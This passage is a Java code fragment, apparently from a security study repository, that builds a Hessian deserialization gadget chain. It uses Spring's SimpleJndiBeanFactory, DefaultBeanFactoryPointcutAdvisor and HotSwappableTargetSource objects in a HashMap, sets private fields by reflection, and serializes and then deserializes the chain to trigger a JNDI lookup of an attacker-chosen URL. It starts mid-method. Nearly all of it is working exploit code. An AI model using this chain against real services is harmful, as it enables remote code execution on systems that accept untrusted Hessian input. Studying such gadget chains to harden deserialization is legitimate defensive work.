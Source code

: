 ```bash
        // SimpleJndiBeanFactory beanFactory = (SimpleJndiBeanFactory) Class.forName(SimpleJndiBeanFactory).getDeclaredConstructor(new Class[]{}).newInstance();
        beanFactory.setShareableResources(url);

        String defaultBeanFactoryPointcutAdvisor = "org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor";
        Constructor<?> constructor = Class.forName(defaultBeanFactoryPointcutAdvisor).getDeclaredConstructor(new Class[]{});
        DefaultBeanFactoryPointcutAdvisor advisor1 = (DefaultBeanFactoryPointcutAdvisor) constructor.newInstance();
        advisor1.setAdviceBeanName(url);
        advisor1.setBeanFactory(beanFactory);
        AsyncAnnotationAdvisor advisor2 = new AsyncAnnotationAdvisor();

        HotSwappableTargetSource targetSource1 = new HotSwappableTargetSource("1");
        HotSwappableTargetSource targetSource2 = new HotSwappableTargetSource("2");

        // 创建HashMap
        HashMap hashMap = new HashMap();
        hashMap.put(targetSource1, "111");
        hashMap.put(targetSource2, "222");

        String classname = "org.springframework.aop.target.HotSwappableTargetSource";
        setFiled(classname, targetSource1, "target", advisor1);
        setFiled(classname, targetSource2, "target", advisor2);

        // 序列化
        FileOutputStream fileOutputStream = new FileOutputStream("JavaSec/out/AbstractBeanFactoryPointcutAdvisorHessian.bin");
        Hessian2Output hessian2Output = new Hessian2Output(fileOutputStream);
        SerializerFactory serializerFactory = new SerializerFactory();
        serializerFactory.setAllowNonSerializable(true);
        hessian2Output.setSerializerFactory(serializerFactory);
        hessian2Output.writeObject(hashMap);
        hessian2Output.close();

        // 反序列化
        FileInputStream fileInputStream = new FileInputStream("JavaSec/out/AbstractBeanFactoryPointcutAdvisorHessian.bin");
        Hessian2Input hessian2Input = new Hessian2Input(fileInputStream);
        HashMap o = (HashMap) hessian2Input.readObject();


    }

    public static void setFiled(String classname, Object o, String fieldname, Object value) throws Exception {
        Class<?> aClass = Class.forName(classname);
        Field field = aClass.getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }
}
```
